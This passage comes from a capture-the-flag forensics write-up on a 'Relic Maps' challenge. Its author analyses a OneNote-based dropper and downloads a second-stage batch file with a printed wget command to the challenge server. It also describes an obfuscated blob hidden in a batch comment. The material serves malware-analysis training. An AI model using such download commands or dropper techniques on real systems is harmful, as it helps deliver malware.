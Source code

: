 That sure looks like malware. It's downloading two additional files from the server - `/uploads/soft/topsecret-maps.one` and `/get/DdAbds/window.bat`. I download them both to analyze them.

```
wget http://167.172.50.208:31172/get/DdAbds/window.bat
```

There's another `.one` file, and a `.bat` file.

I do the exact same steps as above on the new `.one` file, and find an almost identical dropper in the file, though the domains look more like legit domains rather than CTF domains. I try to download the files that they refer to, but get 404 errors - so I decide to move on to the batch file and come back to this file if I need to.

The batch file is ... interesting.

![Relic Maps](for-relicmaps/01.png)

There are over 300 lines of this, with two notable differences. In the middle somewhere there is a "double-colon-comment" containing a blob of something that appears to be either base64 encoded or encrypted (or both).

![Relic Maps](for-relicmaps/02.png)
